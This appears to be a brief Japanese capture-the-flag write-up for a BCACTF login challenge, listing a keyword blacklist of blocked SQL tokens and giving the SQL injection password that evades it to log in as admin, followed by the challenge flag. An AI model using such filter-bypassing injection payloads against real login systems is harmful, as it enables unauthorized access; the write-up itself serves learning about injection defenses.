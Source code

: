 # Writeup

http://web.bcactf.com:49162/ にアクセスする。

`Movie-Login-1`と同様にログイン画面が表示される。

![](img/2021-06-13-15-19-41.png)

問題に添付されているjsonファイルは以下のようになっており、ここに書かれている文字は使えないようになっている。

```json
[
    "and",
    "1",
    "0",
    "true",
    "false",
    "/",
    "*",
    "=",
    "xor",
    "null",
    "is",
    "<",
    ">"
]
```

`username = admin`, パスワードを以下のようにしたらログインできた。

```
2' or '3' & '5
```

<!-- bcactf{gu3ss_th3r3s_n0_st0pp1ng_y0u!} -->
